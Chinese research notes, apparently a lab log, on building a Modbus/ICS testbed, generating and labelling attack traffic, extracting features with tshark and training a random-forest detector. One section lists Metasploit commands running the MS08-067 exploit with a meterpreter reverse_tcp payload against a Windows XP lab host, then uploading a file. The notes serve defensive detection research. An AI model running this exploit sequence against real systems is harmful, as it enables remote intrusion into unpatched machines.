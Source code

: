#### 6/3

复现并标记黑样本

##### 靶场

slave.py：每个RTU作为server，控制三个slave，分别绑定线圈（继电器开关）、离散输入（电压表状态）、保持寄存器（电压表示数），保持寄存器每5秒随机设定电压值

master.py：MTU，每隔10s，对两个RTU发送请求，读三个值，写可选

```python
slave_1.add_block(block_name='0', block_type=cst.HOLDING_REGISTERS, starting_address=0, size=100)
slave_1.set_values(block_name='0',address=0,values=4)
slave_1.get_values(block_name='0',address=0,size=1)
```

<img src="202206/结构.png" style="zoom:67%;" />

MTU，Ubuntu18，192.168.10.129

```sh
sudo python3 listen.py
python3 master.py
```

RTU1，Kali，192.168.10.131

```sh
sudo python3 listen.py
python3 slave.py 502
msfconsole
```

RTU2，WinXP，192.168.10.138。xp上安装modbus_tk需要先安装pyserial

```sh
python3 slave.py 502
```

攻击

```sh
use exploit/windows/smb/ms08_067_netapi
set target 34
set payload windows/meterpreter/reverse_tcp
set RHOSTS 192.168.10.138
exploit

meterpreter > upload '/home/mika/Desktop/slave.py' 'C:\\Documents and Settings\\xuegod_root\\桌面'
```



##### 标记

数据集：3分钟，1276条流量

```python
import pandas as pd

if __name__=="__main__":
    csv_path=r"C:\Users\Mika\Desktop\组会\202206\master.csv"
    table=pd.read_csv(csv_path)
    mtu='192.168.10.129'
    rtus=['192.168.10.131','192.168.10.138']
    # Index(['No.', 'Time', 'Source', 'Destination', 'Protocol', 'Length', 'Info'], dtype='object')
    n = len(table)
    for i in range(n):
        if table.loc[i]['Source'] in rtus and table.loc[i]['Destination'] in rtus:
            table.loc[i,'Label']='1'
        else:
            table.loc[i,'Label']='0'
    table.to_csv(csv_path,index=False,encoding='utf-8-sig')
```

242-403：ms08攻击

704-723，1084-1086：传文件

------

#### 6/10

##### 互联网流量分类中流量特征研究 刘珍

通过特定的技术手段，从大量的网络流量中识别单类应用或区分多类应用（如Web, Attack, P2P等）的流量

基于报头的流量特征：从单个报文头部的字段提取。分类能力较低，统计开销小，时效性高

- MAC头：帧长、报文长度
- IP头：IP头校验和、IP协议、TTL
- 传输层头：端口号、TCP/UDP/push标记

基于网络流的流量特征：统计每条流中多个报文分组表现出的统计特性

- 单流特征：
  报文相关：报文数、报文大小、标志位报文数、总体字节数
  时间相关：括报文到达时间间隔、流持续时间、空闲时间的平均值、方差
  连接相关：吞吐量、丢包率、窗口大小

- 多流特征：
  主机的流量、网络段的流量、节点的流量和会话的流量

- 香农信息熵：描述某个报文载荷payload取值的随机性（在代码中：对每个数据包packet中的payload部分的每个字符统计词频）
  $$
  E=-\sum_{i=1}^n \frac{字符i的数量}{字符总数}\log_2\frac{字符i的数量}{字符总数}
  $$

基于连接图的特征：形成一张图，使用图论知识，包括节点度数、边数等

##### tshark提取特征

tshark：根据pcap文件提取字段，并将值写入csv文件

tshark.exe在wireshark主目录下，添加至环境变量即可。注意pycharm使用gbk编码

```python
    cmd = "tshark -nr {} -T fields " \
          "-e frame.number " \
          "-e tcp.seq " \
          "-e tcp.ack " \
          "-e ip.len " \
          "-E separator=, > {}" \
        .format(fake_command_file, label_file_feature)
    os.system(cmd)
```

tshark命令参数：

- -r 输入pcap文件路径
- -e 要过滤得到的字段
- -E 分隔符
- \> 要导入的csv文件路径

字段大全：

```
时间戳 frame.time >= "Jun 3, 2022 9:50:57.0"
源IP地址 ip.src
源端口 tcp.srcport
源MAC地址 eth.src == 00:0c:29:14:f8:0b
目的IP地址 ip.dst
目的端口 tcp.dstport
目的MAC地址 eth.dst
标识数据包是请求或者响应报文 tcp.ack == 1
功能码 modbus.func_code
错误码 modbus.exception_code
数据块内存地址 modbus.reference_num
操作的数据块数量 modbus.word_cnt
单个数据块的值 modbus.regval_uint16
事务ID mbtcp.trans_id
ModbusTCP报文长度 mbtcp.len
数据包标签
```

总命令

```sh
tshark -nr C:/Users/Mika/Desktop/组会/202206/特征提取-examples/examples/iie_data.pcap  -T fields -e frame.time -e ip.src -e tcp.srcport -e eth.src -e ip.dst -e tcp.dstport -e eth.dst -e tcp.ack -e modbus.func_code -e modbus.exception_code -e modbus.reference_num -e modbus.word_cnt -e modbus.regval_uint16 -e mbtcp.trans_id -e mbtcp.len -E separator=, > C:/Users/Mika/Desktop/组会/202206/特征提取-examples/examples/iie_data.csv
```

##### 随机森林

sklearn

```python
dataset = pd.read_csv('features.csv')
reduced_dataset = dataset.sample(3000)
reduced_y = reduced_dataset['label']
reduced_x = reduced_dataset.drop(['label'], axis=1)

x_train, x_test, y_train, y_test = train_test_split(reduced_x, reduced_y, test_size=0.2, random_state=42)
rf_clf = RandomForestClassifier(max_depth=50)	# 随机森林
rf_clf.fit(x_train, y_train)
rf_prediction = rf_clf.predict(x_test)
print(rf_prediction)
```
